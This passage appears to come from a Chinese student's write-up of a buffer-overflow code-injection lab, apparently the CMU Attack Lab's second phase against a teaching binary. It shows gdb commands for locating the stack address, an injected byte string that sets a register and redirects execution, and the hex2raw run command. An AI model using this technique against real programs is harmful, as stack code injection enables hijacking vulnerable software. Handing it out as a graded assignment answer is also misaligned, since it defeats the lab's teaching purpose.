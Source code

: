 > ```
>
> exploit-2.o的文件内容如下所示

![image-20220507110441125](lab3.assets/image-20220507110441125.png)

> - 现在就只差最后一步了，我们要确定我们注入的代码的运行地址，我们将这段注入代码放到缓冲区开始的位置，然后使用gdb命令进行代码地址的判断，然后让代码执行完getbuf就跳转到我们注入代码的地址，然后就能直接跳转到test2了。
>
> - 确定注入代码的运行地址
>
>   ```bash
>   gdb ctarget
>   b getbuf
>   r -q
>   stepi
>   info r rsp
>   ```

![image-20220507110526701](lab3.assets/image-20220507110526701.png)

好了，缓冲区输入的字符串已经构造好了

> 48 c7 c7 fa 97 b9 59 ff 
> 34 25 ec 17 40 00 c3 00
> 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00
> 78 dc 61 55 00 00 00 00

> - 执行
>
> ```bash
> ./hex2raw < exploit-2.txt | ./ctarget -q
> ```
>
> 即可成功。
>
> - 但是我发现我死活不能成功，才发现我的注入汇编代码的汇编表示中pushq这个指令码的字节代码和别人表示的不一样，别人的是68我的是ff 34 25，就很奇怪，但是我的思路应该是没有问题的。将pushq字节表示替换成68即可成功
> - ![image-20220507110441125](lab3.assets/image-20220507110441125.png)